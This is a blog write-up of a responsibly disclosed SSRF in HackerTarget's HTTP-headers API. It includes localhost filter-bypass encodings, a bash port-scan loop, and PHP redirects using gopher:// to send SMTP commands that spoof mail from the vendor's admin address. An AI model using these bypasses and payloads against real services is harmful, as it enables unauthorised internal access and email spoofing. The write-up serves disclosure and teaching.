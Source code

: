 ```yaml
---
layout: post
title: "Hacking the Hackers: Leveraging an SSRF in HackerTarget"
author: Corben Leo
---
```

### &#128187;&nbsp;Introduction:
This is a write-up of an SSRF I accidentally found in HackerTarget and leveraged to get access to internal services! Please **note** that they **don't** have an active bug bounty program.<br>
<h4>&#129300; What is HackerTarget?</h4>
<a href="https://hackertarget.com" class="link">HackerTarget</a> is a service that provides access to online vulnerability scanners and tools used by many security professionals and "makes securing your systems easier". They also are the creators of <a href="https://dnsdumpster.com/" class="link">DNSDumpster</a>, which is utilized in several recon tools.
<br><br>
<h4>&#128565; SSRF:</h4>
Server-Side Request Forgery (SSRF) is a vulnerability in which an attacker can send a controlled, crafted request via a vulnerable application. We can communicate with different services running on different protocols by utilizing URI schemes such as `gopher://`,`dict://`, `ftp://`, etc. Getting a server to issue a request **is not** a vulnerability in itself, but it 
 becomes one when you can make requests to things you wouldn’t or shouldn’t normally have access to, such as internal networks or internal services.<br><br>
### &#128270;&nbsp;Finding the vulnerability:
I was using DNSDumpster for recon during a bug hunting session, and I noticed there was a button of a globe similar to &#127758; that said "Get HTTP Headers":
<br>
<br>
![HT-HTTPHeaders](/images/ht-httpheaders.png "HTTP Headers function")
<br><br>
It made a call to `https://api.hackertarget.com/httpheaders/?q=<target>` and displayed the HTTP Headers of a simple **GET** request sent to the target server.
<br><br>
![HT-API-Call](/images/api-result.png "HackerTarget")
<br><br>I was obviously intrigued, so I tried querying 127.0.0.1! The API dumped the HTTP request and the query went through! I then tried to see if I could get the SSH version by querying **127.0.0.1:22**
<br><br>Response:<br><br>
![HT-SSH](/images/ht-ssh.png "HackerTarget")
<br><br>
I initially reported it as is, knowing I could hit internal services if there were any. They thanked me for the heads up and told me to check the patch they issued. I checked it, and it was easy to bypass: it was merely blocking 127.0.0.1. Here are a few of the bypasses I used:
```
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
localtest.me
```
I informed them that there **isn't** a way to validate the query just by using string-based checks, so I suggested that they **resolve** the domains and **check** them against local IP ranges. They agreed and said they would think about it.
<br><br>
About 10 days later I asked if they had issued another patch or not, and the response was:
> "It is on my todo list. Not critical though as there are no local services that could be hit with it."

<center>
<h4>&#128527;&nbsp;challenge accepted.</h4>
</center>
<br>

### &#128526;&nbsp;Leveraging like a Boss
I decided to write a bash script that queried the API with one of the bypasses and with a port number to see if I could see what internal services it was running:
```bash
#!/usr/bin/env bash
for port in `seq 1 9999`
do
	echo -e "\n\n[+] Checking Port: "$port"\n"
	curl 'https://api.hackertarget.com/httpheaders/?q=http://'$1':'$port && echo -e "\n"
done
```
I ran it: `âžœ root@pwn  ~  ./ht 0177.1`

HackerTarget limits 25 API queries per IP, so my script only showed the ports 1 - 25. The only responses I got were from SSH running on port 22 and I luckily got a response from the SMTP server on port 25, which I had totally overlooked before!<br><br>
![HT-POSTFIX](/images/ht-postfix.png "HackerTarget")
<br>
#### &#128104;&zwj;&#128187; &nbsp;SMTP?
 - SMTP stands for <font id="highlighter">Simple Mail Transfer Protocol</font>.
 - It is a <a href="https://en.wikipedia.org/wiki/Internet_protocol_suite" rel="noopener noreferrer" target="_blank"><font id="highlighter">TCP/IP</font></a> protocol that's used for sending emails. (who would've guessed? &#128514;)
 - Usually it's used along with either <a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Post_Office_Protocol"><font id="highlighter">pop3</font></a> or<a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol"> <font id="highlighter">imap</font></a>, which are used to receive emails.


I knew I would be able to hit the service with this SSRF, but I wasn't positive that I would be able to send the valid commands needed to send emails from it. I then tried deducing which wrappers were supported and enabled besides **http://** and **https://**. <br><br>
I tried using <font id="highlighter2">dict://</font> right away and was able to get the libcurl version, but that wasn't very helpful. Next, I created a PHP file on my server to initiate a redirect to another port with the <font id="highlighter2">gopher://</font> wrapper:<br>
```php
<?php
header("Location: gopher://<server>:1337/_SSRF%0ATest!");
?>
```
<br>
In a nutshell, the gopher:// protocol sends 1 character, a new line (CR+LF), and the remaining data, which allows us to send a **multiline request**. <br><br>
I started netcat and checked the API again: `https://api.hackertarget.com/httpheaders/?q=http://<server>/redirect.php`. It followed the redirect  and I received a multiline request on port 1337!
<br><br>This means I could send valid commands to the internal SMTP server!

### &#127881;&nbsp;The Finale
I created another PHP file on my server that would redirect the API to the internal SMTP server and issue the valid SMTP commands!
```php
<?php
        $commands = array(
                'HELO hackertarget.com',
                'MAIL FROM: <admin@hackertarget.com>',
                'RCPT To: <C0RB3N@oou.us>',
                'DATA',
                'Subject: @C0RB3N!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
<br><br>
I changed the query one last time: `https://api.hackertarget.com/httpheaders/?q=http://C0RB3N.pro/smtp.php`
<br><br>
I went to my email, reloaded it once.
<br><br>
A new email popped up from "<font id="highlighter">admin@hackertarget.com</font>" with the subject "<font id="highlighter">@C0RB3N</font>" and the message was "<font id="highlighter2">Corben was here, woot woot!</font>"
<br><br>
After yelling 'heck yeah!', I created a quick proof-of-concept video and I sent it over to HackerTarget.
<br> <br>Here's the video <font color="#2EB03D">&#128373;&#65039;</font><br>
<iframe width="580" height="370" src="https://www.youtube.com/embed/F_sC_OrSkIc" frameborder="0" gesture="media" allow="encrypted-media" allowfullscreen></iframe>
<br><br>The response?
> Nice work. Thanks for the PoC. I will finish mitigation on this and check other inputs too now.... you have opened my eyes to SSRF :)


<br><br>
It was a blast to leverage an SSRF on a target that everyone knows of and uses often!<br><br>

### &#9888;&#65039;&nbsp;Note:
They **DO NOT** have a bug bounty program, so please **DO NOT** test them without their permission!
<br><br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/C0RB3N"  target="_blank" rel="noopener noreferrer">https://github.com/sxcurity</a>
